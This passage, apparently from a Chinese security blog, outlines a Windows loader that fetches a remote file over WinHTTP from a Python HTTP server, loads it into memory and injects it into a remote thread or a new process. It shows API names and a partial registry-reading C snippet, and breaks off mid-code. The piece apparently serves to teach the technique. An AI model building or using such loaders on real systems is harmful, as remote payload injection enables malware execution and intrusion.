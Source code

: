 主要结构：

1.  解析路径，分析端口，资源文件，协议
2.  远程拉文件读取进内存中
3.  分配内存远程线程注入或者自己开个进程注入

#### http 请求

```bash
WinHttpOpen
WinHttpOpenRequest
WinHttpSendRequest
WinHttpReceiveResponse
```

#### 读取远程的文件

[![](assets/1705974831-e1235dd6eb30152c1a22c6193686a29c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122161453-5227f822-b8fe-1.png)

我这里用递归读取  
而远程文件可以直接开个 python 的 http 服务

```bash
python3 -m http.server
```

#### 读取注册表

前提是得写入注册表^\_^

```bash
#include <stdio.h>
#include <windows.h>

int main() {
    HKEY hKey;
    char value[255];
    DWORD bufSize = sizeof(value);

    // 打开注册表项
    if (RegOpenKeyEx(HKEY_CURRENT_USER, "SOFTWARE\\Microsoft\\Windows\\CurrentVersion", 0, KEY_READ, &hKey) == ERROR_SUCCESS) {
        // 读取注册表值
        if (RegGetValue(hKey, NULL, "ProductName", RRF_RT_REG_SZ, NULL, value, &bufSize) == ERROR_SUCCESS) {
            printf("Product Name: %s\n", value);
        } else {
```